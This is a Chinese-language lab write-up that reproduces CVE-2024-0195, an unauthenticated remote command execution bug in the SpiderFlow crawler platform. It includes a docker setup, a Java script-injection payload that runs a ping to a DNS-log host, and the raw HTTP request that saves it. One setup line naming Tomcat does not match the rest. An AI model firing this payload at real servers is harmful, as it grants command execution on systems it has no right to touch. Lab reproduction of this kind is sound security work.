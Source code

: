 # CVE-2024-0195-SpiderFlow爬虫平台远程命令执行漏洞

spider-flow 是一个爬虫平台，以图形化方式定义爬虫流程，无需代码即可实现一个爬虫

官网地址：https://www.spiderflow.org/

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-0195
- https://blog.csdn.net/shelter1234567/article/details/135676548

## 漏洞环境

执行如下命令启动一个spiderflow-v0.5.0-web：

执行如下命令启动一个Tomcat 9.0.30：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`无需登录即可查看spiderflow页面。



## 漏洞复现

在平台spiderflow的页面中有一个自定义函数

![image-20240229155240809](.\1.png)

构造payload

![image-20240229160025959](.\2.png)

```
return java.lang./****/Runtime};r=test();r.getRuntime().exec('ping 18k2tu.dnslog.cn');{
```

查看dnslog回显

![image-20240229160230327](.\3.png)

burp发包

```
POST /function/save HTTP/1.1
Host: 192.168.116.128:8080
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 139

id=&name=test&parameter=test&script=return+java.lang.%2F****%2FRuntime%7D%3Br%3Dtest()%3Br.getRuntime().exec('ping+18k2tu.dnslog.cn')%3B%7B
```

